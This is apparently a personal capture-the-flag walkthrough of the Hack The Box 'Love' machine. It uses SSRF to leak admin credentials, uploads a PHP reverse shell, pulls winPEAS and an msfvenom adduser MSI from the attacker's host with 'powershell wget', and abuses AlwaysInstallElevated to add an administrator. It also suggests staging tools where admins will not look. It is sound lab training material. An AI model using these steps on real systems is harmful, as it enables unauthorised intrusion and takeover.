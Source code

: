 # Getting User
## Web Apps
So, there's a web application running on port 80, 443, and 5000. 443 and 5000 show not authorised but port 80 seems ok. 
Run a gobuster and can find a few urls, one of which is /admin. Can't use this yet as we don't have the creds but maybe Roy is the user? We don't have a password for him yet so will have to come back to this. The other paths don't really get us anywhere.

Nmap shows different subdomains on port 5000, add them to the /etc/hosts file. Trying them on port 80 and staging.love.htb works here too. The Demo link has a scan file function which can be used to connect back to your own web server. 
![[Pasted image 20210805192244.png]]
try html tags - no dice

try some php:
```php 
<?php
$cmd = 'set';
echo "<pre>".shell_exec($cmd)."</pre>";
?>
```

![[Pasted image 20210805193243.png]]
Hmm.. that's weird looks like it's done some weird validation or something so not going to execute code either by looks of it.

Well we can always try Server-Side Request Forgery... let's try http://localhost/index.php 
![[Pasted image 20210805193653.png]] 
Ah ha! This displays the index page within the page, so we now know this works. So, try the pages on the other ports:

### Port 443
Doesn't work.

### Port 5000
![[Pasted image 20210731215807.png]]

Nice, we have creds: admin:@LoveIsInTheAir!!!!

Navigate to http://love.htb/admin and login using the creds:
![[Pasted image 20210731220226.png]]

We can upload files to the server via the update user image functionality. We know from earlier enumeration there is an images directory so once we upload a shell, we can navigate to it in the images path.

Using this shell https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/php_reverse_shell.php, amend the bottom of the script to add in your IP and port, then upload to the web server in the images dir. The set up nc listener for the port you put in the script and naviagte to it. http://love.htb/images/revshell.php. You'll now have a shell on the box, but after a few minutes it dies. This is probably because the web server kills the connection as it probably sees it as stale or timed-out. So we need to work efficiently but that doesn't matter as getting a new shell just means redoing the listener and browsing to the `revshell.php` again.

Ok what user are we:
```
whoami
love\Phoebe
```

Ok nice let's see if this user has the flag we want:
```cmd
cd C:\Users\Phoebe\Desktop
type User.txt
```

Nice! That's the user flag done.

# Getting Adminstrator
After hunting around the box for any new creds I didn't find any so time to upload winPEAS.

```bash 
cd HTB/Boxes/Love/www
python3 -m http.server 80
```

Now on the box within our shell:
```cmd
cd C:\xampp\tmp

powershell wget http://10.10.14.7/winPEAS.bat - o winPEAS.bat
```
*Note: you can upload it to any location you want I just chose C:\\xampp\\tmp because it's a temporary directory and probably won't get checked by an admin of the box... IF they were checking*

Now let's run this and see what we get: `C:\\xampp\\tmp>winPEAS.bat`
```cmd
[...SNIP...]
_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [+] AlwaysInstallElevated? <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_- 
[i] If '1' then you can install a .msi file with admin privileges ;) 
	[?] https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated 
	
	HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer AlwaysInstallElevated REG_DWORD 0x1
	
	HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer AlwaysInstallElevated REG_DWORD 0x1
[...SNIP...]
```

Now this is interesting, as we can see here the registry entries allow us to install a `.msi` file as Administrator. What this means is we can create a `.msi` file that can... well... do what ever we want really, like getting the contents of a file or add a user with admin privileges. Let's do this by adding a user instead of just hitting the **root.txt** file.

There's a good guide in the hacktricks website mentioned above so let's use that. First let's create our own `.msi` file to add a user. To do this we can use MSFVenom:
`msfvenom -p windows/adduser USER=vosman PASS=P@ssword123! -f msi -o alwe.msi`

Upload to the server:
`powershell wget http://10.10.14.8:8000/alwe.msi -o expl.msi`
Now run the command to install the MSI file:

`msiexec /quiet /qn /i expl.msi`
`net user`
![[Pasted image 20210802202304.png]]
![[Pasted image 20210802202351.png]]
Nice that added my user and added me to the Administrators group.

Now let's do a PowerShell remote session as Vosman:
```bash
Kali:~/HTB/Boxes/Love# pwsh
PowerShell 7.1.3                                       
Copyright (c) Microsoft Corporation.

https://aka.ms/powershell

PS /root/HTB/Boxes/Love> $pass = ConvertTo-SecureString 'P@ssword123!' -asplaintext -force
PS /root/HTB/Boxes/Love> $cred = New-Object System.Management.Automation.PSCredential('love\vosman', $pass)
PS /root/HTB/Boxes/Love> $cred

UserName                        Password                                                                                                                                                                                       
--------                        -------- 
love\vosman System.Security.SecureString

PS /root/HTB/Boxes/Love> Enter-PSSession -Computer 10.10.10.239 -credential $cred

Enter-PSSession: MI_RESULT_ACCESS_DENIED

PS /root/HTB/Boxes/Love> Enter-PSSession -Computer 10.10.10.239 -credential $cred -Authentication Negotiate
Enter-PSSession: Connecting to remote server 10.10.10.239 failed with the following error message: acquiring creds with username only failed Unspecified GSS failure.  Minor code may provide more information SPNEGO cannot find mechanisms to negotiate for more information, see the about_Remote_Troubleshooting Help topic.

PS /root/HTB/Boxes/Love> apt install gss-ntlmssp
```

Once the bugs are fixed:
`Enter-PSSession -Computer 10.10.10.239 -credential $cred -Authentication Negotiate`

![[Pasted image 20210802202655.png]]

Job Done!
Vosman @vosNETCyber